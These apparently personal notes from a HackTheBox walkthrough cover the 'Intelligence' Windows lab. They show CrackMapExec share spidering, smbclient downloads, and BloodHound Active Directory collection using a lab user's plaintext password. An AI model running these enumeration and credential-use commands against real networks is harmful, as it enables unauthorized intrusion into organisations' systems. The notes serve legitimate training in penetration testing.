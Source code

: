 #### Crackmapexec crawl smb shares

```
crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares -M spider_plus
```

Reviewing results

```
cat /tmp/cme_spider_plus/10.10.10.248.json | jq '. | keys'
```

![[HackTheBox/Windows/attachments/Pasted image 20250515193637.png]]

See the files within the file shares
```
cat /tmp/cme_spider_plus/10.10.10.248.json | jq '. | map_values(keys)'
```

![[HackTheBox/Windows/attachments/Pasted image 20250515193756.png]]

We see one PowerShell script that may be interesting?

Download this script using smbclient 

```
smbclient -U Tiffany.Molina //10.10.10.248/IT
```

**if trying to connect to a box that isn't the dc**
```
smbclient -U intelligence\\Tiffany.Molina //10.10.10.248/IT
```

Download the PowerShell script 

```
get downdetector.ps1
```
![[HackTheBox/Windows/attachments/Pasted image 20250515201751.png]]

Checkout out this script
![[HackTheBox/Windows/attachments/Pasted image 20250515212030.png]]
### Bloodhound

```
python3.8 bloodhound.py -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -c All
```

Checkout bloodhound data 

```
sudo neo4j console
```

Run bloodhound 
```
bloodhound
```
